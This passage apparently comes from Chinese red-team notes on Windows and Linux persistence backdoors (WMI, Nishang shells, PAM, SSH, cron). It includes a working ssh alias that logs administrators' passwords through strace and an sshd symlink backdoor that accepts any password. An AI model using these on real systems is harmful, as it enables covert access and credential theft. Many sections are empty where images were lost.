2.  永久性WMI事件订阅：存储在WMI库中，以SYSTEM权限运行，并且重启后依然存在
3.  使用Empire的wmi模块之前，需要使用Empire获取目标主机shell，使用Empire创建名为test的监听并生成powershell代码
4.  在目标主机上执行powershell代码之后，在agents功能模块下可以看到上线的主机。
5.  使用powershell/persistence/elevated/wmi模块来创建一个永久的WMI订阅，能够持久化控制目标主机
6.  在目标主机创建了永久订阅后，即使重启也会重新获取目标主机的权限。并且是SYSTEM权限


### Nishang后门

Nishang是基于PowerShell 的攻击框架，面向红队和渗透测试人员，该框架提供了许多有用的脚本和Payload，适用于渗透测试的各个阶段。


Nishang的使用环境为Powershell 3.0以上
Powershell 2.0 （Win7）及以下使用可能会有些小问题Nishang包含多个模块,涵盖渗透测试中的各个阶段


1、导入Nishang

-   默认的powershell禁止导入外部脚本；
-   执行 Set-ExecutionPolicy remotesigned修改安全策略重新导入


2、基于tcp协议的交互式shell

-   正向连接

    

-   反向连接

    


3、基于UDP协议的交互式shell


4、基于HTTP和HTTPS协议的交互式shell

-   lnvoke-PoshRatHttp和 Invoke-PoshRatHttps 两个脚本用法相同

    

-   生成的命令复制到目标机执行即可上线


**Add-RegBackdoor**

shift后门，通过连击shift键唤醒cmd


# Linux操作系统后门

### alias

alias命令可以设置别名：

```
执行 ll 相当于执行 ls -l
alias ll=ls -l
```


ssh后门设计

```
在管理员使用ssh 时生效，后门将输入的 ssh 地址账号密码保存到/tmp/sshpwd-date.log 中strace命令可以跟踪进程运行时，系统调用和接受的信号

alias ssh='strace -o /tmp/sshpwd-`date '+%Y-%m-%H-%M-%S-%s'`.log -e read,write,connect -s2048 ssh'
```


将别名bdoor设置为后门的别名



成功拿到目标机的反弹shell


### 计划任务

每隔60分钟执行一次，将shell反弹到192.168.148.1:8888


### TCP_Wrappers

TCP_Wrappers是一个工作在应用层的安全工具。

以ssh为例，每当有ssh的连接请求时，tcpd (Tcp Wrapper的守护进程）即会截获请求，
当请求满足配置文件中的规则，则放行，否则中断连接，配置文件中可设置匹配规则后执行命令。

使用ssh连接目标服务器触发反弹shell


### PAM后门

PAM是一种认证机制，提供一套统一的API，可根据需要给不同的服务配置不同的认证方式。

添加后门：

1、查看本地PAM版本

```
apt list --installed | grep pam
```

2、下载解压对应版本的PAM源码

3、修改源码，添加后门代码


4、替换原有PAM模块，添加后门


5、后门测试

使用添加的代码test登录


### ssh后门

执行下面的命令后可使用任意密码ssh连接目标机器8888端口

```
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
# -f : 链结时先将与 dist 同档名的档案删除
# -s : 进行软链结(symbolic link)
```


### SSH Trapper后门

后门比较隐蔽，没有开放额外的端口，只要对方开了ssh服务，就能远程连接，如果源端口是8888就直接反弹shell，否则就把请求转发给真正的ssh服务
后门伪装成一个 perl脚本，名为sshd，位于/usr/sbin/sshd，将系统原来的sshd移到/usr/bin 下创建后门


连接后门


修改后门的端口


### 建立./..文件/文件夹

linux中每个目录下面都有`.`和`..`这两个文件夹，分别代表当前目录和上级目录

用`·`作为文件或者文件夹名也是一个比较好的隐藏办法

ls 命令无法查看，ls -a命令可以查看


这种方法建立的文件无法通过rm + tab删除，除非知道文件名后面有多少个转义字符


### /etc/hosts.allow和/etc/hosts.deny

参考：https://blog.csdn.net/yjk13703623757/article/details/119869930


病毒分析软件大集合：https://github.com/rshipp/awesome-malware-analysis
